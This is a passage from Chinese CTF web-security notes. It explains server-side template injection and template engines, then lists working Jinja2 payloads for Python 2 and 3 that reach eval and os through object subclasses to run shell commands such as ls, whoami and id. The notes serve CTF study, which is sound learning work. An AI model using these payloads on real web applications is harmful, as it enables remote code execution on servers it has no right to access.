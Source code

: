 #### XML外部实体注入(XXE)

[更多……](https://xz.aliyun.com/t/6887#toc-5)

## SSTI--模板注入

#### SSTI概念

> SSTI看到ss两个字母就会想到服务器，常见的还有SSRF(服务器端请求伪造)。SSTI就是服务器端模板注入(Server-Side Template Injection)
>  说到注入，我们常见的注入有sql注入，sql注入我们都很熟悉，但SSTI和sql注入一样都是先从用户获得一个输入将其作为 Web  应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell  等问题。其影响范围主要取决于模版引擎的复杂性。

#### 什么是模板引擎

> 模板引擎是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，用于网站的模板引擎就会生成一个标准的文档，就是将模板文件和数据通过模板引擎生成一个HTML代码。

![在这里插入图片描述](CTF-WEB%E7%AF%87.assets/20200405101824486.png)

模板引擎格式：

![https://upload-images.jianshu.io/upload_images/15314495-66404bcc512933fc](CTF-WEB%E7%AF%87.assets/15314495-66404bcc512933fc)



#### 一些模板payload

~~~
模板引擎：Smarty，Mako，Jinja2，Jade，Velocity，Freemaker和Twig
常见模板注入：
flask/jinja2模板注入
PHP/模版引擎Twig注入
~~~

`遇到考察SSTI的题目，可按照下面的图进行测试,从而判断出是那个模板引擎，再去找对应的payload`

![https://upload-images.jianshu.io/upload_images/15314495-8ce9f220db5385a6](CTF-WEB%E7%AF%87.assets/15314495-8ce9f220db5385a6)

**jinja2**

+ **python2_任意执行**

  ~~~
  #(system 函数换为popen('').read()，需要导入os模块)  
  {{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}} 
  #(不需要导入os模块，直接从别的模块调用)
  {{().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
  #常用的py2 EXP
  ().__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
  
  ~~~

+ **python3_任意执行**

  ~~~
  {{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}}
  
  ~~~
